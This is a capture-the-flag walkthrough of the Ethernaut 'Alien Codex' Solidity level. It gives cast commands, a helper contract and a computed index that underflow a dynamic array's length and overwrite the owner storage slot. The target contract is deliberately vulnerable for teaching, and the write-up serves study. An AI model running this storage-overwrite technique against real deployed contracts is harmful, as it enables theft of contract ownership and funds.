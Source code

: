 ## Alien Codex Level Outline

**Difficulty : 7/10**

You've uncovered an Alien contract. Claim ownership to complete the level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272)

## Solution

Inherited contracts share the same storage slot with their derived contracts. 

Meaning we need to modify storage slot 0 to complete this level as that is where the variable `owner` will live.

Remember that dynamic arrays are not stored contiguously in storage. Instead their intended **storage slot contains the size of the dynamic array** and to find the memory address where the dynamic array's element are stored, we have to calculate a keccak256 hash.

```
memory_address = keccak256(p)

where
- - -  
memory_address  : address of starting element of dynamic array
p               : storage position of dynamic array
```
> in our case, p = 1 as `address owner` and `bool contact` sharing storage slot 0 as both variables are less than 32bytes

### Walkthrough
##### 1. Call `make_contact()` so that we can satisfy the `contacted()` modifier
```console
cast send $LEVEL_ADDRESS "make_contact()" --private-key $PRIVATE_KEY
```

##### 2. Let's inspect storage and confirm that we need to target storage slot 1
```console
cast storage $LEVEL_ADDRESS 0
```
output :
```
0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
```

let's also find the current contract owner
```console
cast call $LEVEL_ADDRESS "owner()"
```
output :
```
0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272
```

we can see that the variable `address owner` and `bool contact` have been packed into storage slot 0. We want to attack this storage slot to change the owner variable value to our address.

this means that stroage slot 1 will hold the length of our dynamic array `codex`

```console
cast storage $LEVEL_ADDRESS 1
```
output
```
0x0000000000000000000000000000000000000000000000000000000000000000
```
> this is correct as codex initially starts with a size of 0

##### 3. Forcing a underflow
if we call the `retract()` method, the length of `codex` will underflow resulting in the array having a length of 2^256, which is the same size as the total contract storage as the EVM reserves 2^256 slots of 32 bytes.

```console
cast send $LEVEL_ADDRESS "retract()" --private-key $PRIVATE_KEY
```

let's confirm that the underflow was succesful by checking storage slot 1 (which will hold the length of the array)
```console
cast storage $LEVEL_ADDRESS 1
```
output :
```
0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```


##### 3. Calculating attack parameters to modify storage slot 0
now that the length of `codex` is equal to the size of the contract storage, we can use the function `revise(uint,bytes32)` to modify any storage slot.

we know that the `owner` variable is located at storage slot 0, we have to provide an index to `revise(uint,bytes32)` such that it will overflow the maximal length of `codex` and point to storage slot 0.

calculation of index **revise_index** to cause an overflow to storage slot 0

```
codex_memory_address = keccak256(bytes32(1))

revise_index = 2^256 - codex_memory_address
```

to quickly calculate **revise_index**, open remix and run the following contract

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.4.8;

contract Calc {
    uint256 public revise_index;

    function getIndex() public {
        bytes32 codex_index = keccak256(bytes32(uint256(1)));
        revise_index = 2 ** 256 - 1 - uint(codex_index) + 1;
    }
}
```
> credit to [Igor Yalovoy](https://ylv.io/ethernaut-alien-codex-solution/) for the script

returns a value of :

```
revise_index=35707666377435648211887908874984608119992236509074197713628505308453184860938
```

when we call `revise(uint,bytes32)` with the value above as the index, it will overflow `codex` and point to storage slot 0. We can prove this quickly by adding the memory address of 'codex' with `revise_index` together

```
// codex memory address
0x4EF1D2AD89EDF8C4D91132028E8195CDF30BB4B5053D4F8CD260341D4805F30A 

// revise_index (in hex)
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6

// adding them together yields 
0x10000000000000000000000000000000000000000000000000000000000000000

// which overflows to 
0x0000000000000000000000000000000000000000000000000000000000000000
```
> bonus : we can target any address below `codex's memory address` by adding the index of the storage slot that we want to attack to `revise_index` e.g. to attack storage slot 3, we would calculate `revise_index = revise_index + 3`

##### 4. Sending transaction to complete level

we first need to **left pad** our EOA address because the address data type requires 20bytes but `revise` requires us to send it 32bytes
```
// example EOA
0x8aFF5cA996F77487a4f04F1ce905Bf3d27455580

// left-padding EOA with 12 bytes
0x0000000000000000000000008aFF5cA996F77487a4f04F1ce905Bf3d27455580
```
> one bytes 2^8 bits which is represented using 2 hex digits. so we left pad 12*2 zeros

```console
cast send $LEVEL_ADDRESS "revise(uint,bytes32)" 35707666377435648211887908874984608119992236509074197713628505308453184860938 \
$LEFT_PADDED_EOA --private-key $PRIVATE_KEY
```

## Further Reading
[Write up to a similar problem](https://weka.medium.com/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)


---

##### [:arrow_left: Back To Main Menu](../README.md)
